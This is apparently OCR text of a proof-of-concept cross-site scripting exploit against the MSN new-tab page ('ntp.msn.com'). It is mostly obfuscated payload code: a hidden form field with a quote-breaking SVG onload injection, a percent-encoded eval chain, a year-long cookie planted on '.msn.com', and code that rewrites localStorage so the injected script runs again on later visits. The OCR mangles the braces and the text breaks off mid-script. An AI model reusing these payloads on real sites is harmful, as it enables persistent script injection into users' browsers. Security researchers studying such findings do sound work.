 ```
---------------------------------------------------------------------
unescaped value above (Executes in broken 'ntp.msn.com'), this is all one line and im using with()`{``}` a lot because semicolon not allowed.
---------------------------------------------------------------------
function() `{`
        for (q in localStorage) `{`
        if (q.indexOf('lastKnown') &gt; -1) `{`
            with(qntpobj = JSON.parse(localStorage[q])) `{`
                qntpobj.dom = unescape('%3c%53%76%47%2f%4f%6e%4c%6f%41%64%3d%27%64%6f%63%75%6d%65%6e%74%2e%77%72%69%74%65%28%2f%40%71%61%62%2f%2e%73%6f%75%72%63%65%29%27%3e') + qntpobj.dom
            `}`
            with(qab = qntpobj) `{`
                localStorage[q] = JSON.stringify(qab)
            `}`
        `}`
    `}`

`}`()
---------------------------------------------------------------------
unescaped value above (Executes in normal 'ntp.msn.com')
---------------------------------------------------------------------
&lt;SvG/OnLoAd='document.write(/@qab/.source)'&gt;
--&gt;
  &lt;input  type="hidden" name="startnum" value="90'&lt;SvG/onLoAd=eval(unescape('%28%71%64%3d%20%6e%65%77%20%44%61%74%65%28%29%29%2e%73%65%74%4d%6f%6e%74%68%28%71%64%2e%67%65%74%4d%6f%6e%74%68%28%29%20%2b%20%31%32%29%3b%64%6f%63%75%6d%65%6e%74%2e%63%6f%6f%6b%69%65%3d%22%64%6f%6d%61%69%6e%49%64%3d%22%2b%28%75%6e%65%73%63%61%70%65%28%27%25%37%31%25%32%32%25%32%61%25%36%36%25%37%35%25%36%65%25%36%33%25%37%34%25%36%39%25%36%66%25%36%65%25%32%38%25%32%39%25%37%62%25%36%36%25%36%66%25%37%32%25%32%38%25%37%31%25%32%30%25%36%39%25%36%65%25%32%30%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%32%39%25%37%62%25%36%39%25%36%36%25%32%38%25%37%31%25%32%65%25%36%39%25%36%65%25%36%34%25%36%35%25%37%38%25%34%66%25%36%36%25%32%38%25%32%37%25%36%63%25%36%31%25%37%33%25%37%34%25%34%62%25%36%65%25%36%66%25%37%37%25%36%65%25%32%37%25%32%39%25%33%65%25%32%64%25%33%31%25%32%39%25%37%62%25%37%37%25%36%39%25%37%34%25%36%38%25%32%38%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%33%64%25%34%61%25%35%33%25%34%66%25%34%65%25%32%65%25%37%30%25%36%31%25%37%32%25%37%33%25%36%35%25%32%38%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%35%62%25%37%31%25%35%64%25%32%39%25%32%39%25%37%62%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%65%25%36%34%25%36%66%25%36%64%25%33%64%25%37%35%25%36%65%25%36%35%25%37%33%25%36%33%25%36%31%25%37%30%25%36%35%25%32%38%25%32%37%25%32%35%25%33%33%25%36%33%25%32%35%25%33%35%25%33%33%25%32%35%25%33%37%25%33%36%25%32%35%25%33%34%25%33%37%25%32%35%25%33%32%25%36%36%25%32%35%25%33%34%25%36%36%25%32%35%25%33%36%25%36%35%25%32%35%25%33%34%25%36%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%34%25%33%31%25%32%35%25%33%36%25%33%34%25%32%35%25%33%33%25%36%34%25%32%35%25%33%32%25%33%37%25%32%35%25%33%36%25%33%34%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%33%33%25%32%35%25%33%37%25%33%35%25%32%35%25%33%36%25%36%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%36%25%36%35%25%32%35%25%33%37%25%33%34%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%37%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%39%25%32%35%25%33%37%25%33%34%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%38%25%32%35%25%33%32%25%36%36%25%32%35%25%33%34%25%33%30%25%32%35%25%33%37%25%33%31%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%32%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%33%25%32%35%25%33%36%25%36%36%25%32%35%25%33%37%25%33%35%25%32%35%25%33%37%25%33%32%25%32%35%25%33%36%25%33%33%25%32%35%25%33%36%25%33%35%25%32%35%25%33%32%25%33%39%25%32%35%25%33%32%25%33%37%25%32%35%25%33%33%25%36%35%25%32%37%25%32%39%25%32%62%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%65%25%36%34%25%36%66%25%36%64%25%37%64%25%37%37%25%36%39%25%37%34%25%36%38%25%32%38%25%37%31%25%36%31%25%36%32%25%33%64%25%37%31%25%36%65%25%37%34%25%37%30%25%36%66%25%36%32%25%36%61%25%32%39%25%37%62%25%36%63%25%36%66%25%36%33%25%36%31%25%36%63%25%35%33%25%37%34%25%36%66%25%37%32%25%36%31%25%36%37%25%36%35%25%35%62%25%37%31%25%35%64%25%33%64%25%34%61%25%35%33%25%34%66%25%34%65%25%32%65%25%37%33%25%37%34%25%37%32%25%36%39%25%36%65%25%36%37%25%36%39%25%36%36%25%37%39%25%32%38%25%37%31%25%36%31%25%36%32%25%32%39%25%37%64%25%37%64%25%37%64%25%37%64%25%32%38%25%32%39%25%32%61%25%32%32%25%37%31%27%29%29%2b%22%3b%65%78%70%69%72%65%73%3d%22%2b%71%64%2b%22%3b%64%6f%6d%61%69%6e%3d%2e%6d%73%6e%2e%63%6f%6d%3b%70%61%74%68%3d%2f%22%3b'))"&gt;

&lt;/form&gt;
&lt;script&gt;
qframe.onload=e=&gt;`{`
```